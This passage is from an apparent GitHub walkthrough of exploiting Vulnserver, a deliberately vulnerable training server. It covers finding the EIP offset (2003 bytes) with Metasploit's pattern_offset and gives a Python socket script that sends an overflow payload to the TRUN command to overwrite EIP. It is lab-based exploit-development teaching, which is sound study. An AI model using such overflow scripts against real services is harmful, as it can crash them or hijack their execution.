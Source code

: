This will crash the program, where our buffer will get overflowed and fills the Base Pointer and Instruction Pointer with the data from the pattern

Now, using the data from the registers we are going to locate the offset in the buffer space to reach the data

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/find-offset-reg.png">
</div>

Here we can see, our Instruction Pointer ```EIP``` has a data of ```0x386F4337```

Lets find the offset for this value by ```metasploit```,

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ msf-pattern_offset -q 386F4337
[*] Exact match at offset 2003
```

So after ```2003 bytes```, we will be overwriting the ```EIP``` using buffer space

## Overwriting Instruction Pointer

Now, we have found the offset of our ```EIP```

It's time to control the EIP, which is the important phase of every exploitation

Lets craft a script to overwrite the EIP with our own custom data, which will be further used to craft an exploit

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver]
└─$ cat overwrite_eip.py 
import socket, sys
# to overwrite buffer and EBP
payload=b"A"*2003
# to overwrite EIP
payload+=b"B"*4
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.141", 9999))
s.send((b"TRUN /.:/"+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver]
└─$ python3 overwrite_eip.py         
```